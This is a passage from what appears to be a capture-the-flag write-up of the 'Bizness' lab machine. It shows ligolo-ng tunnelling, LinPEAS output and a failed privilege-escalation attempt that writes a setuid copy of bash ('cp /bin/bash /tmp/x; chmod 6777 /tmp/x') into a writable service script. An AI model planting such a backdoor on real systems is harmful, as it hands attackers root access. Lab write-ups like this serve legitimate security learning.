 On Kali:

```text
ligolo-ng » INFO[0023] Agent joined.                                 name=ofbiz@bizness remote="10.10.11.252:55306"
ligolo-ng » session
? Specify a session : 1 - #1 - ofbiz@bizness - 10.10.11.252:55306
[Agent : ofbiz@bizness] » tunnel_start
[Agent : ofbiz@bizness] » INFO[0062] Starting tunnel to ofbiz@bizness
```

Now I can access all the internal ports via 240.0.0.1.

Meanwhile I run LinPEAS and find this:

```console
╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
/etc/systemd/system/multi-user.target.wants/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/multi-user.target.wants/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
...


╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
...
-rwxr-sr-x 1 root tty 23K Jan 20  2022 /usr/bin/write.ul (Unknown SGID binary)
```

I tried adding this to the script at `/opt/ofbiz/gradlew`:

```bash
cp /bin/bash /tmp/x; chmod 6777 /tmp/x
```

And then I killed `gradlew`, thinking that `systemd` would restart it using my malicious script. Unfortunately that didn't happen, and I simply lost the reverse shell and then the ingress points were dead. (So, I reset the machine.)

```console
ofbiz@bizness:/etc/systemd/system$ cat ofbiz.service
# OFBiz service
[Unit]
Description=OFBiz Service
[Service]
Type=simple
# environment variables
Environment="JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64"
Environment="PATH=/usr/lib/jvm/java-11-openjdk-amd64/bin:/bin:/sbin:/usr/bin:/usr/sbin"
User=ofbiz
WorkingDirectory=/opt/ofbiz
# start and stop executables
# note that systemd requires specifying full/absolute path to executables
ExecStart=/opt/ofbiz/gradlew ofbiz
ExecStop=/opt/ofbiz/gradlew "ofbiz --shutdown"
Restart=Always
RestartSec=10s
RemainAfterExit=no
[Install]
WantedBy=multi-user.target
```
